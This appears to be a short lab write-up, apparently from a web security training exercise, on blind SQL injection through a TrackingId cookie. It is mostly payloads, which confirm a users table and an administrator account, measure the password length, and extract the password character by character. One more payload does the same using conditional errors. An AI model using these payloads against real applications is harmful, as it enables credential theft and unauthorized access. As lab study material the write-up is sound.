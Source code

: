 # Conditional responses
## Lab
Check table.
```sql
TrackingID=<cookie>' AND (select 'a' from users Limit 1)='a
```
This returns TRUE

Check User.
```SQL
TrackingId=<cookie>' AND (select 'a' from users where username='administrator')='a
```
Also TRUE

Now to brute force the password.
First guess the length
```SQL
TrackingId=<cookie>' AND (select 'a' from users where username='administrator' AND length(password)>30)='a
```
Using boolean logic you find out the length is 20.

Payload
```sql
TrackingId=<cookie>' AND (select substring(password,<index>,1) from users where username='administrator')>'a
```
It works!
Wrote a python script cause doing it in burp won't do binary search.
# Conditional Errors
same as above but uses errors instead.
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
Check for injection
```sql
<cookie>
```